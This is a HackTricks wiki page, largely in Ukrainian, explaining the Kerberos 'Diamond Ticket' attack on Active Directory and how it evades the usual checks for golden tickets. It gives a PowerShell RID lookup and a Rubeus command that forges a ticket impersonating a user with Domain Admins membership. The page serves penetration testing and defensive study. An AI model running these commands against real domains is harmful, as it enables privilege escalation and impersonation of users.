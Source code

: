 # Diamond Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Diamond Ticket

**Як золотий квиток**, діамантовий квиток - це TGT, який можна використовувати для **доступу до будь-якої служби як будь-який користувач**. Золотий квиток підробляється повністю офлайн, шифрується за допомогою хешу krbtgt цього домену, а потім передається в сеанс входу для використання. Оскільки контролери домену не відстежують TGT, які (або які) вони легітимно видали, вони з радістю приймуть TGT, які зашифровані їх власним хешем krbtgt.

Існує дві поширені техніки для виявлення використання золотих квитків:

* Шукати TGS-REQ, які не мають відповідного AS-REQ.
* Шукати TGT, які мають смішні значення, такі як стандартний 10-річний термін дії Mimikatz.

**Діамантовий квиток** створюється шляхом **модифікації полів легітимного TGT, який був виданий DC**. Це досягається шляхом **запиту** **TGT**, **дешифрування** його за допомогою хешу krbtgt домену, **модифікації** бажаних полів квитка, а потім **повторного шифрування**. Це **переборює дві вищезгадані недоліки** золотого квитка, оскільки:

* TGS-REQ матиме попередній AS-REQ.
* TGT був виданий DC, що означає, що він матиме всі правильні деталі з політики Kerberos домену. Навіть якщо ці деталі можна точно підробити в золотому квитку, це складніше і відкрито для помилок.
```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
